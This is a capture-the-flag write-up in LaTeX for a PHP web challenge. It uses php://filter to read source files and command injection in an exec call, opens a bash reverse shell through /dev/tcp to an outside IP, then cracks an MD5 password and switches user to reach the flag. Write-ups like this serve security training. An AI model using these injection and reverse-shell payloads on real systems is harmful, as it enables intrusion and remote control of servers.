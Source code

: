 \documentclass{article}
\begin{document}
\subsubsection*{body count}
{Flag} : \texttt{dL@stCTF431\{1nj3ct10n\_15\_p41nfu1\}}\\ (Note: while copying the flag, underscores are not copied. Some latex issue)\\ 
Once we load the challenge url, we observe that it is a php site, and there is a file, called \texttt{?file=wc.php}, so that gives us a hint that, there might be some other files on the server that can be looked into. Searching online for how to dump files using php, I found, \href{https://medium.com/@althubianymalek/exploring-php-wrappers-enhancing-php-capabilities-280a6af827b5}{a medium article}, that tells us we can use php filters. Dumping the entire code of wc.php, using \texttt{/?file=php://filter/convert.base64-encode/resource=wc.php}. We observe that RCE is possible, as \\ \texttt{exec('printf \'' . \$text . '\' | wc -c')} is present, and it takes in any input without sanitizing it. But first, we need the password. Looking at /robots.txt, to find any disallowed paths, we get the password from dumping the contents of \texttt{checkpass.php}, using, \texttt{/?file=php://filter/convert.base64-encode/resource=checkpass.php}. We finally get access to the wc program, and we can run any code we like using this payload \texttt{' \&\& our\_command \# '}. We try to get a reverse shell, using \href{https://www.revshells.com/}{revhsells.com}, we start a nc listener on our host machine, \texttt{nc -lvnp 9001}, and send the payload, \texttt{'\&\& bash -c "bash -i >\& /dev/tcp/10.7.12.140/9001 0>\&1"; \# '} to the wc.php program.

Once we get a reverse shell, we can finally execute commands. Looking into the \texttt{/tmp} directory, we observe that we don't have enough permissions. There are flags in the default directory as well, however no permissions to read them. We do \texttt{cat /etc/passwd}, and observe that a user anmed \texttt{ctf} is there, and there is also a directory \texttt{/ctf}. Peeping into that, we get a readme file and a whole bunch of nested folders. Reading the \texttt{README}, we get the md5 hash of the password. Running that through \href{https://md5decrypt.net/}{md5 decrypt}, we get our password, \texttt{cnsctf}. 
We then run \texttt{su ctf}, to switch to the ctf user (after entering the password). Then moving through the directories in /ctf directory, we arrive at the flag: \texttt{cat /ctf/system/of/a/down/flag.txt}, which gives us the flag.
\end{document}
